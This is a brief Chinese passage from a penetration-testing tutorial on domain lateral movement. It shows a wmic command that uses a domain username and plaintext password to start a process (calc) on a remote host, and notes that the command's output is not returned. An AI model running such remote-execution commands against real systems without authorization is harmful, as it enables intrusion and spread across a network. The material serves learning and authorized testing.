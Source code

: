 > 原文：[http://book.iwonder.run/域渗透/4.2.2.2.html](http://book.iwonder.run/域渗透/4.2.2.2.html)

#### 4.2.2.2 利用 wmic 进行横向移动

利用系统自带的工具 wmic 在目标主机上执行任意命令

```
wmic /node:192.168.19.178 /user:adtest\jeff1 /password:test@123 process call create "calc" 缺点:无法回显命令 
```

![image](img/bd734c15b0c045047f43e96da0e22ef5.png)

